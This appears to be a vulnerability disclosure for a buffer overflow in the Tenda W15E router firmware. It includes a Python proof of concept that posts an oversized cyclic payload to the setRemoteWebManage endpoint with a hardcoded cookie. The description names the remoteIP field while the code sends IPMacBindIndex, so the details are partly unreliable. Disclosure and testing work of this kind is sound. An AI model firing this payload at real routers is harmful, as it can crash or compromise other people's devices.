


# W15E buff overflow vulnerability
 
Vendor: Tenda W15E  
Version: US_W15EV1.0br_V15.11.0.7(752_816)_CN_TDC

Description：There is a buff overflow vulnerability in W15E router. The function is 0x00098F2C. Ip gets the content of remoteIP and uses the strcpy without check the length, which result in buffer overflow.

The static analysis is as follows:


POC:
```py
import requests
from pwn import *

url='http://192.168.100.2/goform/setRemoteWebManage'
payload=cyclic(500)
header={
'Host': '192.168.100.2',
'User-Agent':'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0',
'Accept':'*/*',
'Accept-Language':'en-US,en;q=0.5',
'Accept-Encoding':'gzip, deflate',
'Content-Type':'application/x-www-form-urlencoded; charset=UTF-8',
'X-Requested-With':'XMLHttpRequest',
'Origin':'http://192.168.100.2',
'Connection':'close',
'Referer':'http://192.168.100.2/mac_filter.html?random=0.008005922687726486&',
'Cookie':'password=17399d7fb9cf0644a1f50f015116919dcabazx'} 

data1 ='IPMacBindIndex=%s'%payload
ret = requests.post(url = url ,headers = header,data = data1, verify=False)
```
The exploitation is as shown

